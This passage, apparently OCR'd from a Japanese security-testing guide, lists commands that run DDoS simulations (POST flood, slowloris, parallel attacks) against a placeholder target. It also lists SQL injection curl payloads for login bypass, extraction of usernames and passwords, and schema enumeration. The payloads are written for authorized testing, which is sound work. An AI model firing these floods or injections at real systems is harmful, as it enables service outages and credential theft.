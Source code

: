 #### HTTP POST フラッド攻撃
```bash
# POST データを使用した攻撃
python3 advanced_ddos_simulation.py \
  --target <target-url> \
  --attack-type post-flood \
  --threads 50 \
  --duration 120 \
  --payload-size 1024

# 期待される結果: アプリケーション処理能力の限界テスト
```

#### 分散攻撃パターン
```bash
# 複数の攻撃パターンを同時実行
./ddos_simulation.sh http://<target-url> 30 60 &
python3 advanced_ddos_simulation.py --target <target-url> --attack-type slowloris --connections 100 --duration 60 &
python3 advanced_ddos_simulation.py --target <target-url> --attack-type post-flood --threads 20 --duration 60 &
wait

# 期待される結果: より現実的な攻撃パターンの再現
```

## 2. Webアプリケーション脆弱性攻撃

### 2.1 SQLインジェクション攻撃

#### 目的
データベースクエリの脆弱性を悪用してデータベースにアクセスする攻撃をシミュレートします。

#### 基本的なSQLインジェクション

##### 認証バイパス攻撃
```bash
# ログイン画面での認証バイパス
curl -X POST "http://<target-url>/login" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin' OR '1'='1-- &password=anything"

# より高度なペイロード
curl -X POST "http://<target-url>/login" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin&password=' UNION SELECT 'admin', 'password' FROM users-- "
```

##### データ抽出攻撃
```bash
# ユーザー情報の抽出
curl -X POST "http://<target-url>/search" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "query=' UNION SELECT username, password FROM users-- "

# データベース構造の調査
curl -X POST "http://<target-url>/search" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "query=' UNION SELECT name, sql FROM sqlite_master WHERE type='table'-- "
```
